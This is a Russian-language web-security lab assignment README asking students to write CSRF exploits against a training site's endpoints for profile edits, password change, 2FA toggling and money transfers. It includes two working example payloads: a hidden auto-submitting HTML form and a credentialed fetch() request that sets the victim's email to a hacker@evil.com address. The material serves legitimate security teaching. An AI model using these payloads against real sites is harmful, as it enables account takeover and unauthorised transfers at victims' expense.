 # CSRF инъекция

Написание CSRF эксплоитов

## Цели работы:

Написать по 1 эксплоиту под каждый эндпоинт (необходимо использовать как JS, так и подход через форму)

### Эндпоинты

- `/update-profile` — Методы: GET, POST — Аутентификация: требуется (session `user_id`) — POST (form): `email`, `phone`, `address`, `bio`

- `/update-preferences` — Метод: POST — Аутентификация: требуется (session `user_id`) — POST (form): `status` (по умолчанию `standard`)

- `/change-password` — Метод: POST — Аутентификация: требуется (session `user_id`) — POST (form): `new_password`

- `/toggle-2fa` — Метод: POST — Аутентификация: требуется (session `user_id`) — Параметры/тело: нет

- `/transfer` — Метод: POST — Аутентификация: требуется (session `user_id`) — POST (form): `amount`, `target_user`, `comment` (опц.)

- `/add-funds` — Метод: POST — Аутентификация: требуется (session `user_id`) — POST (form): `amount`

- `/api/update-email` — Метод: POST — Аутентификация: требуется (session `user_id`) — POST (JSON): `{ "email": "<email>" }`

- `/api/transfer` — Метод: POST — Аутентификация: требуется (session `user_id`) — POST (JSON): `{ "amount": <number>, "target_user": "<username>" }`

## Ресурс

[Сайт](http://5.129.245.211:5000/)

## Сдача

Создайте форк репозитория `websec-lab-csrf-{ваша_фамилия}` в организацию `41ISR`, работайте в ветке `dev`. Удалите содержимое файла `README.md` и работайте в нем же. По завершению работы сделайте пулл реквест `dev` => `main` и отметьте [меня](https://github.com/ktkv419) ревьювером

## Подсказки

- [Презентация](https://ktkv-presentations.github.io/websec-5/)

### Пример эксплоита через форму

```html
<!DOCTYPE html>
<html>
<head>
    <title>...</title>
</head>
<body>
    <form id="csrf-form" 
          action="http://localhost:5000/update-profile" 
          method="POST" 
          style="display:none;">
        <input type="text" name="email" value="ayylmao@r.r">
    </form>
    
    <script>
        window.onload = function() {
            document.getElementById('csrf-form').submit();
        };
    </script>
</body>
</html>

```

### Пример эксплоита через JS

```javascript
        fetch('http://localhost:5000/api/update-email', {
            method: 'POST',
            credentials: 'include', // Отправляет cookies автоматически
            headers: {
                'Content-Type': 'application/json',
            },
            body: JSON.stringify({
                email: 'hacker@evil.com'
            })
        }).catch(() => {});
```
